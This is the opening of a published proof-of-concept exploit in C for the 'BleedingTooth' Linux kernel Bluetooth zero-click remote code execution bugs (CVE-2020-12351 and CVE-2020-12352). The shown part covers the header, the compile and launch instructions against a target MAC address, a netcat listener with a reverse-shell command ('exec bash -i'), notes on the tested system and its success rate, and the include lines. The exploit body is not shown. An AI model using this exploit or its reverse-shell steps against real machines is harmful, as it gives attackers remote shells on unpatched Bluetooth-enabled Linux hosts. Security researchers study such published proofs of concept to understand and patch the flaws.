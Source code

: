 EXP
---

    # Exploit Title: Linux Kernel 5.4 - 'BleedingTooth' Bluetooth Zero-Click Remote Code Execution
    # Date: 06/04/2020
    # Exploit Author: Google Security Research (Andy Nguyen)
    # Tested on: 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
    # CVE : CVE-2020-12351, CVE-2020-12352

    /*
     * BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution
     * by Andy Nguyen (theflow@)
     *
     * This Proof-Of-Concept demonstrates the exploitation of
     * CVE-2020-12351 and CVE-2020-12352.
     *
     * Compile using:
     *   $ gcc -o exploit exploit.c -lbluetooth
     *
     * and execute as:
     *   $ sudo ./exploit target_mac source_ip source_port
     *
     * In another terminal, run:
     *   $ nc -lvp 1337
     *   exec bash -i 2>&0 1>&0
     *
     * If successful, a calc can be spawned with:
     *   export XAUTHORITY=/run/user/1000/gdm/Xauthority
     *   export DISPLAY=:0
     *   gnome-calculator
     *
     * This Proof-Of-Concept has been tested against a Dell XPS 15 running
     * Ubuntu 20.04.1 LTS with:
     * - 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020
     *   x86_64 x86_64 x86_64 GNU/Linux
     *
     * The success rate of the exploit is estimated at 80%.
     */

    #include <bluetooth/bluetooth.h>
    #include <bluetooth/hci.h>
    #include <bluetooth/hci_lib.h>
    #include <bluetooth/l2cap.h>
    #include <errno.h>
    #include <stdlib.h>
    #include <sys/socket.h>
    #include <sys/uio.h>
    #include <unistd.h>
